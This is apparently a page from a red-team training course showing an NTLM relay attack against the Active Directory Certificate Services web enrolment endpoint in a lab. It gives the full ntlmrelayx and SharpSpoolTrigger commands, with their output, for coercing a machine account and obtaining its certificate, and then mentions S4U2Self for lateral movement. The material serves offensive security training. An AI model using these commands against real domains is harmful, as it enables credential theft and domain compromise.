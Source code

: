 AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at `_http[s]://<hostname>/certsrv_**.**`

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/35f/294/c07/certsrv.png)

  

If NTLM authentication is enabled, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controlled location, relay the request to a CA to obtain a certificate for that DC, and then use it to obtain a TGT.

An important aspect to be aware of is that you cannot relay NTLM authentication back to the originating machine.  We therefore wouldn't be able to relay a DC to a CA if those services were running on the same machine.  This is indeed the case in the RTO lab, as each CA is running on a DC.

Another good way to abuse this primitive is by gaining access to a machine configured for unconstrained delegation.

  We already have access to WEB as jking, but this is another way of achieving the same end.

  

To achieve this, we need:

- PortBender on Workstation 2 to capture traffic on port 445 and redirect it to port 8445.
- A reverse port forward to forward traffic hitting port 8445 to the team server on port 445.
- A SOCKS proxy for ntlmrelayx to send traffic back into the network.

  

The ntlmrelayx command needs to target the `certfnsh.asp` page on the ADCS server.
```
attacker@ubuntu ~> sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

[*] Protocol Client SMTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
  

Then force the authentication to occur from WEB to WKSTN-2.
```
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102

[*] Servers started, waiting for connections
[*] SMBD-Thread-4: Received connection from 127.0.0.1, attacking target https://10.10.122.10
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:443-<><>-OK
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against https://10.10.122.10 as DEV/WEB$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 13
[*] Base64 certificate of user WEB$:MIIRRQ[...]qDRJLE
```
  

The S4U2Self trick can be used to obtain usable TGS's to move laterally to it.